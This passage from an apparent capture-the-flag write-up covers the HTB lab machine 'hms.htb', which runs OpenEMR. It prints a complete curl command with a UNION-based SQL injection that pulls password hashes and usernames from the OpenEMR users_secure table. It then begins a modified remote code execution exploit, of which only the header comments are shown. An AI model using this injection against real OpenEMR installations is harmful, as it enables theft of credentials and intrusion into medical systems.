 ![add_edit_event_user_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8be49b02060d4cb481bece57a4a17645.png)


The `add_edit_event_user_page` is vulnerable to sql injection. Change the cookie header and execute the commmand below to get the credential of an OpenEMR user.

```bash
curl -i -s -k -X $'GET'     -H $'Cache-Control: no-cache' -H $'Cookie: PHPSESSID=n30rpgmfkjg559hcov0iiurc92' -H $'User-Agent: sqlmap/1.4.8#stable (http://sqlmap.org)' -H $'Host: hms.htb' -H $'Accept: */*' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close'     -b $'PHPSESSID=n30rpgmfkjg559hcov0iiurc92'     $'http://hms.htb/portal/add_edit_event_user.php?eid=-2059%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CCONCAT%280x4141414141%2CIFNULL%28CAST%28password%20AS%20NCHAR%29%2C0x20%29%2C0x4141414141%2CIFNULL%28CAST%28username%20AS%20NCHAR%29%2C0x20%29%2C0x4141414141%29%2CNULL%20FROM%20openemr.users_secure--%20-' | tail -n2 | gunzip | awk -F "AAAAA" '{print "
password: "$2;print "username: "$3}'
```

The password found were hashed and stated with the characters `$2a$05` which indicate the password has been hashed with a Bcrypt algorithm.


![openemr_admin_passwd.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/61449bead36c42acbd37e77d1ceae0f1.png)


Now that I had valid OpenEMR user credentials I were able to make slight modification on the authenticated [remote code execution exploit](https://www.exploit-db.com/exploits/48515) I found earlier.

Modified code:
```python
# Title: OpenEMR 5.0.1 - Remote Code Execution
# Exploit Author: Musyoka Ian
# Date: 2020-05-25
# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69

# openemr_exploit.py

#!/usr/bin/env python2
```